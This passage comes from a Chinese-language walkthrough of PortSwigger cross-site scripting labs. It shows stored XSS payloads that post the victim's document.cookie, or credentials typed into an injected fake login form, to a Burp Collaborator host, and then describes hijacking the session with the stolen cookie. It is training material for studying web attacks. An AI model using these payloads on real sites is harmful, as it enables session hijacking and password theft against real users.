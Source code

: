 



2.在留言板提交下面内容，fetch里面的URL内容是Burp Collaborator Client复制出来的payload。

```js
<script>
fetch('https://nulfyp1987evstcfop4hde17dyjp7fv4.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```



这段js脚本使用fetch函数向Collaborator的url发送了一个POST请求，它将当前页面的cookie作为请求的body发送到了Collaborator。





3.回到Collaborator，看到下方HTTP交互的Request to Collaborator，发现了脚本发送来的请求，其中body值为我们要的cookie。

![image-20250307102433171](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250307102433171.png)



4.burp拦截包，刷新Home页面，Burp拦截后把其中的session替换为从Collaborator拿到的session。

![image-20250307102700435](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250307102700435.png)











### 23.利用XSS来窃取密码

[Exploiting cross-site scripting to capture passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)



和上一题类似



将下面的脚本放到留言板

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://2qtuu4xo4maao88uk40w9txm9df53vrk.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
